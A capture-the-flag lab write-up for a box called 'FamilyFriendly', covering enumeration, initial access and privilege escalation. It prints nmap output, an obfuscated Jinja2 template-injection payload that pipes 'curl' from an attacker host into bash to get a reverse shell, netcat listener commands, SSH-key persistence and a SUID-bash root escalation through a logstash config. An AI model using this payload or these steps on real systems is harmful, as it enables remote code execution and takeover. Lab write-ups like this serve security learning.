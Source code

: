 # FamilyFriendly

## Enumeration
```bash
└─$ nmap -A -p- -sC -T4 10.10.205.16 -oX nmap.out                    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-29 14:25 BST
Nmap scan report for 10.10.205.16
Host is up (0.036s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
7/tcp  open  echo
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9e:30:c5:61:92:84:1b:24:64:86:c3:3b:b7:dc:99:34 (RSA)
|   256 78:c3:c3:83:81:73:cb:f1:50:41:f1:9a:d7:bf:3e:d1 (ECDSA)
|_  256 ec:ce:b8:f9:57:53:56:63:e9:61:90:12:15:e5:78:4a (ED25519)
23/tcp open  telnet  Linux telnetd
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
48151/tcp open  http    Werkzeug httpd 2.0.3 (Python 3.6.9)
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was http://10.10.34.139:48151/login
|_http-server-header: Werkzeug/2.0.3 Python/3.6.9
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.09 seconds

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

└─$ telnet <IP> 23 
```
### I found a secret path with fuff.
```bash
http://10.10.101.61:48151/temporary/dev/new/account
```
### I create a user with the following password and when I connect, the password gives me a reverse shell.
```js
username = {{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl 10.8.37.214/rce | bash")|attr("read")()}}
```
```bash
python3 -m http.server 80

nc -lnvp 4444
```
## User FLAG

```cat /home/deadpool/user.txt``` : EPI{R_j00_5UR3_j00R3_n07_pHR0M_7H3_Dc_UN1V3r23}

## Privilege Escalation

```bash
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEVHSInmKKk3Z3UHbvtH9LHOnWkDTnKFtoPTRMI2+J+a mariusmarolleau@gmail.com" > authorized_keys
```

### Linpeas gives me a vulnerability.
cd /etc/logstash/conf.d

### Modifie the file in this directory to get a bash with a suid in deadpool home.

```bash
cd /home/deadpool
./bash -p
```
### Got a shell as root.

## Root FLAG

I forgot to write it :(
